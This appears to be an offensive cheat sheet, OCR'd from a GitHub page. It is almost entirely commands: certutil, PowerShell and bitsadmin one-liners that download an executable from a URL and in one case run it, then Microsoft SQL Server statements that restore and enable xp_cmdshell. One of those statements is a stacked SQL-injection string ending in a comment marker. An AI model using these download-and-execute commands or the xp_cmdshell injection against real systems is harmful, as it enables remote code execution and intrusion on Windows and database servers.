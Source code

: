 ```
```
# PAYLOAD DOWN
certutil download
```
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe C:\7zip.exe
```
certutil cache
```
certutil.exe -urlcache *
```
certutil cache delete
```
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe delete
```
powershell
```
powershell (new-object System.Net.WebClient).DownloadFile('http://7-zip.org/a/7z1604-x64.exe','C:\7zip.exe')

powershell (new-object System.Net.WebClient).DownloadFile('http://7-zip.org/a/7z1604-x64.exe','C:\7zip.exe');start-process 'C:\7zip.exe'
```
bitsadmin download
```
bitsadmin /transfer "test" http://7-zip.org/a/7z1604-x64.exe C:\7zip.exe

bitsadmin /transfer n http://7-zip.org/a/7z1604-x64.exe C:\7zip.exe
```
# Microsoft SQL Server
check xp_cmdshell
```
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
```
restore xp_cmdshell
```
exec sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll';
```
delete xp_cmdshell
```
exec sp_dropextendedproc 'xplog70.dll';
```
open xp_cmdshell
```
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```
```
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell';EXEC master..sp_configure 'SHOW advanced options',1; RECONFIGURE WITH OVERRIDE; EXEC master..sp_configure 'xp_cmdshell',1; RECONFIGURE WITH OVERRIDE; EXEC master..sp_configure 'SHOW advanced options',0; RECONFIGURE WITH OVERRIDE--
```
close xp_cmdshell
```
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',0;
RECONFIGURE;
```
check SA
```
select is_srvrolemember('sysadmin')
```